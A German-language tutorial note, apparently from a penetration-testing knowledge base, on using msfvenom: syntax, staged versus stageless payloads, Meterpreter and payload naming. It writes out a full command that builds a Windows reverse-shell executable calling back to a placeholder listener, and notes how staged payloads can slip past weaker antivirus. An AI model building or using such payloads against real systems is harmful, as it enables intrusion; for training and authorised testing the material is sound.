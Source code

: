
# Generelle Infos 

*Der "einmal hin alles drin" Payload laden*

msfvenom ist Teil des Metasploit-Frameworks und wird verwendet, um Code für Reverse- und Bind-Shells zu generieren. Es wird häufig bei der Entwicklung von Exploits auf niedrigerer Ebene verwendet, um hexadezimalen Shellcode zu generieren, wenn z. B. ein Pufferüberlauf-Exploit entwickelt wird; es kann jedoch auch verwendet werden, um Payloads in verschiedenen Formaten zu generieren (z. B. .exe, .aspx, .war, .py)

Standard Syntax:

```
msfvenom -p <Payload> <Options>
```

Beispiel anhand einer Windows x64 TCP Reverse shell

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

Erklärung der Optionen:
-f * Format *
	 -> Spezifiziert den output hier auf eine *.exe
  
-o * File *
	-> Die Output Location und den Dateinamen der Generierten Payload
 
LHOST=* ip *
	-> Spezifiziert die IP für das Call Back der Reverse shell
 
LPORT=* port* 
	-> Spezifiziert den Call back port meistens bei Metasploit 4444



# Staged und Stageless

Generell werden Payloads in zwei Konzepte unterteilt Staged und Stageless reverse shell payloads, siehe unterhalb erklärt. Stageless Payloads sind in der Regel einfacher zu verwenden und abzufangen; sie sind jedoch auch sperriger und können von einem Antiviren- oder Eindringlingserkennungsprogramm leichter entdeckt und entfernt werden. Staged Payloads sind schwieriger zu verwenden, aber der erste Stager ist viel kürzer und wird manchmal von weniger effektiven Antivirenprogrammen übersehen. Moderne Antivirenlösungen nutzen auch das Anti-Malware Scan Interface (AMSI), um die Payload zu erkennen, wenn sie vom Stager in den Speicher geladen wird, so dass gestaffelte Payloads in diesem Bereich weniger effektiv sind als früher.

### Staged

Gestufte Payloads werden in zwei Teilen gesendet. Der erste Teil wird als Stager bezeichnet. Dabei handelt es sich um einen Teil des Codes, der direkt auf dem Server selbst ausgeführt wird. Er stellt eine Verbindung zu einem wartenden Listener her, enthält aber selbst keinen Reverse-Shell-Code. Stattdessen verbindet er sich mit dem Listener und nutzt die Verbindung, um die eigentliche Payload zu laden, sie direkt auszuführen und zu verhindern, dass sie auf die Festplatte gelangt, wo sie von herkömmlichen Antivirenlösungen abgefangen werden könnte. So wird die Payload in zwei Teile aufgeteilt - einen kleinen anfänglichen Stager und dann den umfangreicheren Reverse-Shell-Code, der heruntergeladen wird, wenn der Stager aktiviert wird. Staged Payloads erfordern einen speziellen Listener - normalerweise den Metasploit Multi/Handler

### Stageless

Stagless Payloads sind gebräuchlicher. Sie sind völlig eigenständig, da es nur ein Stück Code gibt, das bei Ausführung sofort eine Shell an den wartenden Listener zurückschickt.


# Meterpreter

Ein weiterer wichtiger Punkt im Zusammenhang mit Metasploit ist eine Meterpreter-Shell. Meterpreter-Shells sind die Metasploit-eigene Marke einer voll ausgestatteten Shell. Sie sind absolut stabil, was bei der Arbeit mit Windows-Zielen von großem Vorteil ist. Außerdem verfügen sie über eine Menge eingebauter Funktionen, wie z. B. das Hoch- und Herunterladen von Dateien. Wenn wir eines der Post-Exploitation-Tools von Metasploit verwenden wollen, müssen wir eine Meterpreter-Shell verwenden, aber das ist ein anderes Thema. Der Nachteil von Meterpreter-Shells ist, dass sie in Metasploit abgefangen werden müssen

# Payload Bennenungs Syntax 

Bei der Arbeit mit msfvenom ist es wichtig zu verstehen, wie das Benennungssystem funktioniert. Die grundlegende Konvention lautet wie folgt:
```
<OS>/<Arch>/<Payload>
```

Zum Beispiel:
```
linux/x86/shell_reverse_tcp
```

Dies würde eine stufenlose Reverse-Shell für ein x86-Linux-Ziel erzeugen.
Die Ausnahme zu dieser Konvention sind Windows 32bit-Ziele. Für diese wird der Arch nicht angegeben. z.B.:

```
windows/shell_reverse_tcp
```

Für ein 64-Bit-Windows-Ziel wird der Arch wie üblich angegeben (x64).

Schauen wir uns den Payload-Abschnitt etwas genauer an.

In den obigen Beispielen wurde als Payload `shell_reverse_tcp` verwendet. Das bedeutet, dass es sich um eine Stageless Payload handelt. Wie das? Stageless Payloads werden mit Unterstrichen (_) gekennzeichnet. Das gestufte Äquivalent zu dieser Payload wäre:
```
shell/reverse_tcp
```

**Gestufte Payloads werden mit einem weiteren Schrägstrich (/) gekennzeichnet.**

Diese Regel gilt auch für Meterpreter-Payloads. Ein Windows 64bit staged Meterpreter Payload würde wie folgt aussehen:
```
windows/x64/meterpreter/reverse_tcp
```
Ein Linux 32bit stageless Meterpreter Payload würde wie folgt aussehen:

```
linux/x86/meterpreter_reverse_tcp
```

